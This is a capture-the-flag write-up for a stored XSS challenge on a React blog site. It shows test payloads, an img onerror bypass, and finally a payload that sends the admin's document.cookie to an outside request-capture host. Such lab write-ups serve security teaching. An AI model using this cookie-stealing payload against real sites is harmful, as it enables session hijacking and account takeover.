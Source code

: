 ## Challenge 2: Stored XSS on a Comment Section (Intermediate)

### Objective:
Perform a stored XSS attack by injecting JavaScript to steal the admin cookie.

### Write-up
The website homepage has a list of blogs. Each blog has its title, content, and author. As it is a stored XSS challenge, the content of the blog could potentially be vulnerable to XSS.

The website navigation bar has a login button. By using the hints user credentias to login. We can see an AddBlog button in the navigation bar. 

On the AddBlog page, we can fill in the title and content of the blog. We can try to inject a simple script tag to test if the content is vulnerable to XSS:
```html
<script>alert('XSS')</script>
```

We found that the content of the blog is not being displayed directly on the page also no alert box is popping up. We check the inspect element and found that the script tag is still there but not executed.

This is because the website is using ReactJS to render the content. ReactJS can disable script tags by default to prevent XSS attacks. However, we can still try to bypass this protection by using other methods.

We can try to inject an image tag with an onerror attribute that executes JavaScript:
```html
<img src="invalid" onerror="alert('XSS')">
```

This payload will trigger the alert box when the image fails to load. We can use this payload to test if the website is vulnerable to stored XSS.

We then create a payload that steals the admin cookie:
```html
<img src="x" onerror="window.location.href=&quot;https://engjo0jt11qlw.x.pipedream.net/?q=&quot; + document.cookie">
```

This payload will redirect the user to a server that captures the admin cookie when the image fails to load. Since we cannot use `"` inside another `"` in HTML, we use `&quot;` to represent the double quote character.

Finally, we can add the payload to the content of the blog and submit it. We can then wait for the admin to view the blog, which will trigger the stored XSS attack and send the admin cookie to our server.
